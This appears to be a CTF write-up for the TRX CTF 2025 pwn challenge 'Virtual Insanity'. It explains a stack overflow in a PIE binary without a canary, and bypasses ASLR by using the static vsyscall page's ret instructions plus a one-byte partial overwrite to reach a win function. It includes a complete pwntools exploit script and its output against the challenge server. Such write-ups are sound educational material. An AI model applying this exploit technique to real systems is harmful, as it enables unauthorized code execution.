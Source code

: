 ---
title: "[WRITE UP] - TRX CTF 2025"
description: 'Another great CTF with solid pwn challenges—managed to solve one, and this write-up covers that. I’ll be updating as I explore more, while sharpening my ASM and reversing skills.'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-03-13
tags: ['2025', 'WriteUp', 'PWN']
authors: ['kdot']
draft: false
---

# Virtual Insanity

## Description

Dancing, Walking, Rearranging Furniture

DISCLAIMER: This challenge doesn't require brute-forcing

## Analysis

First, we will need to use `checksec` to know what `security method` is applied to this binary

```sh
[*] '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

So we can see that the binary has `PIE` and no `Canary`, dive into the source code we know that there is a `win` function which we can let the program return to after finishing the `main` function

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

But the problem here is this binary has `PIE`, and there is no way for us to `ret2win` in a manual way, how about `Stack Pivot`? Still no because the `puts` function is above `read` function and there is `FULL RELRO` so this is impossible to leak the address too. We can think of `Partial Overwrite`, but this way is still impossible because the `main` function calls first, and when it returns, it will return to the function that called it (as known as `__libc_start_call_main()`) to exit.

![alt text](../../img/TRX/image-1.png)

It feels pretty hopeless because there's no way to exploit it huh? But once we look carefully we know that there is `vsyscall` mapping page. The `vsyscall` partition is only visible when we enable `emulate` mode for the kernel.

For `wsl2` we can reconfigure the `.wslconfig` file to make it visible to us

```sh
[wsl2]

processors=2

kernelCommandLine = vsyscall=emulate

[experimental]
sparseVhd=true
```

And for `Ubuntu` we can use
```sh
cat /proc/self/maps | grep vsyscall
echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
update-grub
reboot
```

And when we finish and check `vmmap` again we can see it

![alt text](../../img/TRX/image.png)

By reading this [article](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html), we can understand the purpose and functionality of `vsyscall` and `vDSO`. In short, `vsyscall` (`virtual system call`) is a mechanism in the Linux kernel designed to speed up certain system calls. The kernel maps a special memory page into user space, which contains predefined variables and implementations of specific system calls. One notable characteristic of `vsyscall` is that its address is `static`, meaning it is not affected by `PIE`. And as we can see in `__vsyscall_page` symbol which is defined in [vsyscall_emu_64.S](https://codebrowser.dev/linux/linux/arch/x86/entry/vsyscall/vsyscall_emu_64.S.html)

```S
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_time, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_getcpu, %rax
    syscall
    ret
```

We can see that certain system calls (`gettimeofday`, `time`, `getcpu`) are implemented within the `vsyscall` page, each containing a `ret` instruction. The starting address of the `vsyscall` page is always `0xffffffffff600000`, as it remains static. Because of this, `glibc` knows the exact addresses of all virtual system call handlers. These addresses are defined in the `glibc` source code as follows:

```c
#define VSYSCALL_ADDR_vgettimeofday   0xffffffffff600000
#define VSYSCALL_ADDR_vtime           0xffffffffff600400
#define VSYSCALL_ADDR_vgetcpu         0xffffffffff600800
```

All virtual system call requests are handled within the `__vsyscall_page`, using an offset based on `VSYSCALL_ADDR_vsyscall_name`. The system call number is placed into the `rax` register, and then the native `syscall` instruction for `x86_64` is executed.

## Exploit Development

So with that information about `vsyscall` we can easily take advantage of the `ret` instruction, to let the program return to `rsp+0x10` (in case we stopped at main `ret`)

```sh
00:0000│ rsp 0x7fffffffdc38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffdc40 ◂— 0
02:0010│     0x7fffffffdc48 —▸ 0x5555555551da (main) ◂— endbr64
03:0018│     0x7fffffffdc50 ◂— 0x1ffffdd30
04:0020│     0x7fffffffdc58 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
05:0028│     0x7fffffffdc60 ◂— 0
06:0030│     0x7fffffffdc68 ◂— 0xacb58eb5d2e91dc3
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
```


So our exploit will look like this:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+109
        c
        '''.format(**locals()), *a, **kw, env={"FLAG": r"TRX{example_flag}"})
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, env={"FLAG": r"TRX{example_flag}"})

p = start()

# ==================== EXPLOIT ====================

'''
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000               mov    rax, 0x60     RAX => 0x60
0xffffffffff600007               syscall
0xffffffffff600009               ret
'''

def exploit():


  offset = 40
  vsyscall = 0xffffffffff600000

  payload = b'A' * offset
  payload += p64(vsyscall) * 2
  payload += p8(0xa9)

  s(payload)

  interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/TRX_CTF/dist
$ ./xpl.py REMOTE virtual.ctf.theromanxpl0.it 7011
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to virtual.ctf.theromanxpl0.it on port 7011: Done
[*] Switching to interactive mode
You pathetic pwners are worthless without your precious leaks!!!
IMPOSSIBLE! GRAHHHHHHHHHH
TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}
[*] Got EOF while reading in interactive
```
